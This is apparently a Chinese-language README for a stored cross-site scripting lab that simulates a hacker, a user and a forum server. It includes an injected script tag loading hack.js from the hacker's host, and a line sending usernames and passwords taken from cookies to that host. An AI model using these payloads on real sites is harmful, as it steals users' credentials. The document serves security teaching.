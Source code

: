 # 跨站式脚本攻击（XSS attack) 实验

# 支持的操作系统
Windows, Linux
# 需要软件
Apache HTTP Server, MySQL, PHP 7.0
# 安装细节
本实验需要三部电脑以模仿Hacker, 正常用户和服务器。
在这实验中， Hacker需要安装 Apache和PHP, 而服务器三个软件都需要安装。
对于Windows, 把代码放到 Apache 的 DocumentRoot: C:\Apache24\htdocs
对于Linux，把代码放到 Apache 的 DocumentRoot: /var/www/html/
Hacker 和服务器的代码分别在 hack 和 webserver文件夹里。
然后， 在webserver/databaseAuth.txt 需要隔行分别提供MySQL的用户名和密码
然后，在/hack/hack.js里需要把代码进行修改：script.src = 'http://#在这里写hacker的IP地址#/index.php?username=' + username + '&password='+password;
# 实验过程
我门设定了用户 hacker 和他的密码位：78539816, 正常用户 jim123 和他的密码位：12345678 (这些可在createDatabase.sql 修改）。
每当用户登入到网站，服务器将会在cookies里记录用户名和密码。
首先， hacker在登入了网页后，在论坛的评论输入区输入恶意代码： <script type = "text/javascript" src = "http://#在这里写hacker的IP地址#/hack.js"></script>
，并注入到数据库里。这样，恶意代码只要数据库管里员一日没有发现，恶意代码将会永远存储在数据库。每当正常用户
在论坛里登入后再发评论，会显示到其他用户的评论，而在此时恶意代码将会执行，并把存放在正常用户客户端的Cookies发到Hacker，从而Hacker得到用户名和密码。
